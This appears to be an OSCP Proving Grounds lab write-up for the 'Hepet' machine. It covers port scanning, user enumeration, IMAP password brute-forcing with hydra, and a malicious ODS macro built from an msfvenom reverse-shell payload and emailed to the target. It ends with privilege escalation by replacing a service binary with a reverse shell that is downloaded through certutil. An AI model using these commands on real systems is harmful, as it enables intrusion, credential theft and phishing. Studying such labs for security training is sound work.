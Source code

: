 #### Walkthrough

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Walkthrough.png)

#### Enumeration

```
nmap -Pn -p- -sV 192.168.239.140 -T4 -oN Hepet.nmap
```

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-16 11:19 EDT
Nmap scan report for 192.168.239.140
Host is up (0.21s latency).
Not shown: 65522 filtered ports
PORT      STATE SERVICE        VERSION
25/tcp    open  smtp           Mercury/32 smtpd (Mail server account Maiser)
79/tcp    open  finger         Mercury/32 fingerd
105/tcp   open  ph-addressbook Mercury/32 PH addressbook server
106/tcp   open  pop3pw         Mercury/32 poppass service
110/tcp   open  pop3           Mercury/32 pop3d
143/tcp   open  imap           Mercury/32 imapd 4.62
443/tcp   open  ssl/http       Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
2224/tcp  open  http           Mercury/32 httpd
7680/tcp  open  pando-pub?
8000/tcp  open  http           Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
11100/tcp open  vnc            VNC (protocol 3.8)
20001/tcp open  ftp            FileZilla ftpd 0.9.41 beta
33006/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33006-TCP:V=7.91%I=7%D=8/16%Time=611A82E9%P=x86_64-pc-linux-gnu%r(N
SF:ULL,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.239'\x20is\x20not\x20a
SF:llowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(RPCCheck
SF:,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.239'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(LANDesk-RC,
SF:4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.239'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(afp,4D,"I\0\
SF:0\x01\xffj\x04Host\x20'192\.168\.49\.239'\x20is\x20not\x20allowed\x20to
SF:\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Host: localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 294.07 seconds
```

All the http services don't seem to have vulnerabilities. Trying to use brute-force attatcks to find the useful information. The rockyou.txt wordlist
is not working so I generate wordlists from https website.

```
cewl -d 4 https://192.168.247.140 -w ~/Documents/OffSecPG/Hepet/wordlists.txt
```

Using [finger-user-enum.pl](https://github.com/pentestmonkey/finger-user-enum) to enumerate users.

```
perl finger-user-enum.pl -U /usr/share/wordlists/names.txt -t 192.168.220.140 > finger_enum_log.txt
```

Finding existing users: Agnes, admin, Jonas, Magnus, Martha, Charlotte. The website also shows employees' information.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.27_00h40m35s_002_.png)
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.27_00h41m04s_003_.png)

Only the IMAP service found is suitable for enumeration. Other services will block brute-force attacks.

```
hydra -l jonas -P ~/Documents/OffSecPG/Hepet/wordlists.txt 192.168.247.140 -s 143 imap
```

Getting a vaild passowd successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.25_23h51m41s_001_.png)

Logging in to pop3 service and read the email. The letter mentioned that their computers were installed with office software. The concept is sending an office file contain a malicious macro. (I am stuck here. Referring to offical walkthroughs below.)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.26_00h27m32s_003_.png)

Creating a hta payload. We need to extract the command from it.

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.220 LPORT=80 -f hta-psh -o tmp.hta
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_01h32m52s_001_.png)

Because VBA's literal string can contain a maximum of 255 characters but the variable doesn't. So we have to separate the command string. Moditfying the codes whichever way you like. Then we create an ```ods``` file and add the marco.

(Installing LibreOffice ```sudo apt-get install libreoffice```)

Opening a empty calc and save as a ods file.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_15h32m11s_001_.png)

Adding a new marco.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_18h15m17s_016_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_18h16m25s_017_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_18h17m25s_018_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_18h18m45s_019_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_18h21m09s_020_.png)

We set marco to execute when the ods file is opened.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_18h21m53s_021_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_18h22m38s_022_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_18h23m11s_023_.png)

Sending ods file and waiting for five minutes.

```
sendemail -f 'jonas@localhost' \                                                          
                       -t 'mailadmin@localhost' \
                       -s 192.168.220.140:25 \
                       -u 'file' \
                       -m 'file' \
                       -a shell.ods
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_19h19m26s_031_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_18h47m17s_024_.png)

#### Escalation

Finding services.

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto"
```

Veyon service is installed in a folder that the user can access.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_18h53m44s_026_.png)

Creating a reverse shell.

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.220 LPORT=443 -f exe -o veyon-service.exe
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_19h27m10s_032_.png)

We active the http server for file transfer.

```
python -m SimpleHTTPServer 8000 
```

The service could not be deleted, so use the move command. After that we download the reverse shell.

```
certutil -f -urlcache http://192.168.49.220:8000//veyon-service.exe veyon-service.exe
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_19h12m12s_029_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_19h12m33s_030_.png)

Starting a new listener and rebooting.

```
shutdown /r
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Hepet/Hepet_2021.08.28_19h36m13s_033_.png)

